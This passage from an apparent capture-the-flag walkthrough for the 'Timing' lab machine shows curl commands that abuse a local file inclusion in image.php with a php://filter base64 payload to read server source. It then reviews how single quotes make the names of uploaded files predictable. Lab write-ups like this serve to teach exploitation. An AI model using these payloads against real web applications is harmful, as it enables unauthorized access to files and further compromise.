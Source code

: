 ```php
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php' | base64 -d
```

## Code Review

Looking through the code it's fairly simple to see what it does. It takes the file uploaded by the user, checks it has a .jpg extension, and stores its name in $file_name. Then it creates a unique hash value by taking the md5 hash of the current time, and combining that with the file name. It then stores the file in /images/uploads. There is one sneaky section of the script that needs to be understood, otherwise you will be stuck trying to determine the filename that has been created.

Looking at the first section of the file:

```php
<?php
include("admin_auth_check.php");
$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
```

Notice that there is a variable called $file_hash created with a value set by uniqid(). [This](https://www.w3schools.com/php/func_misc_uniqid.asp) article explains what the function does, but essentially it's like time() but in microseconds so a much bigger value. The important bit is here:

```php
md5('$file_hash' . time())
```

In PHP single and double quotes work differently with strings. See [this](https://www.geeksforgeeks.org/what-is-the-difference-between-single-quoted-and-double-quoted-strings-in-php/) article, but basically the value of he $file_hash variable is never used.

We also see there is another file included in this one called admin_auth_check.php, let's look at that:

```php
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php' | base64 -d

<?php
include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}
?>
```
